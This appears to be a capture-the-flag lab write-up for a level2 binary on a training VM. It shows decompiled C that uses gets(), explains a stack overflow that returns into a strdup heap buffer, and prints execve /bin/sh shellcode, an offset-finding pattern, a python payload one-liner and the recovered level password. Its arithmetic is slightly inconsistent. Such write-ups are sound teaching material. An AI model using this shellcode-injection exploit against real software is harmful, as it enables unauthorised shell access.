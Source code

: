 ## Flag2 README: Finding Flag2

After connection on our vm with:
```bash
ssh level2@localhost -p 4242
```
We finded a binary program called level1.
if we decompile it we got this
```C
char *p()
{
  char s[64]; // [esp+1Ch] [ebp-4Ch] BYREF
  const void *v2; // [esp+5Ch] [ebp-Ch]
  unsigned int retaddr; // [esp+6Ch] [ebp+4h]

  fflush(stdout);
  gets(s);
  v2 = (const void *)retaddr;
  if ( (retaddr & 0xB0000000) == -1342177280 )
  {
    printf("(%p)\n", v2);
    _exit(1);
  }
  puts(s);
  return strdup(s);
}
```

So the idea was at first to an exploit call retToLibC which the goal is to bufferOverflow and then call a function of the C lib.
like execve("/bin/bash").
But that didn succeed but we have an idea : We can buffer overflow the stack make it call the return of strdup that will have allocated a shellcode and will return it.

The goal of the shell code is to execute bash. So the idea is to build something like this:
"Shell code" + "\x90"(no op) * sizeTo overflow + adress of return strdup.

The shellcode found online:
\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh

we use this to found where we can write in the return adress =
aA00aA01aA02aA03aA04aA05aA06aA07aA08aA09bA00bA01bA02bA03bA04bA05bA06bA07bA08bA09cA00cA01cA02cA03cA04cA05cA06cA07cA08cA09dA00dA01dA02dA03dA04dA05dA06dA07dA08dA09

we found this offset cA00
mean that we will write in the adress at the 80caractere : but because our shell code is 38 byte long we will add 80 - 45 = 35
\x90.

last thing is the return adress of strdup :
For that we run the code normaly we break after the strdup and we print eax bc we know that's in eax where the return adress his.
0x804a008
and we put in litle endian \x08\xa0\x04\x08.

and we build so
```python
python -c 'print("\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x90" * 35 + "\x08\xa0\x04\x08")
```
python -c 'print("\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x90" * 35 + "\x08\xa0\x04\x08")' > test6

and lets go we are lvl 3
cat .pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02

